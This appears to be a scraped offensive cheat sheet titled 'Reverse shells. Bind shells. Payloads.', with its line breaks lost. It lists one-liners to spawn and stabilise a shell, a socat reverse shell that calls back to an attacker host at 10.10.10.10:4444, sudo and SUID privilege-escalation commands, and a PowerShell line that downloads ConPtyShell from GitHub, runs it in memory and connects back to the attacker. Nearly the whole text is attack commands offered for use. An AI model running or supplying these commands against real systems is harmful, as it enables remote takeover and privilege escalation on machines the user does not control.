

REVERSE SHELLS. BIND SHELLS. PAYLOADS.
python3 -c 'import pty; pty.spawn("/bin/bash")'python -c 'import pty; pty.spawn("/bin/bash")'/usr/bin/script -qc /bin/bash /dev/nullperl -e 'exec "/bin/bash";'ruby -e 'exec "/bin/bash"'lua -e 'os.execute("/bin/bash")'echo os.system('/bin/bash')/bin/sh -iAfter spawning a TTY, background the shell (Ctrl-Z) and run these on your LOCAL machine:
stty raw -echo; fgstty size # check your terminal sizeThen on the REMOTE shell:
export TERM=xterm-256colorstty rows 50 cols 200 # match your local stty sizeresetListener (attacker):
socat file:`tty`,raw,echo=0 tcp-listen:4444Target (if socat available):
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444sudo /bin/bashsudo -u root /bin/bash -pfind / -perm -4000 -type f 2>/dev/nullIEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.10.10 4444powershell -ep bypass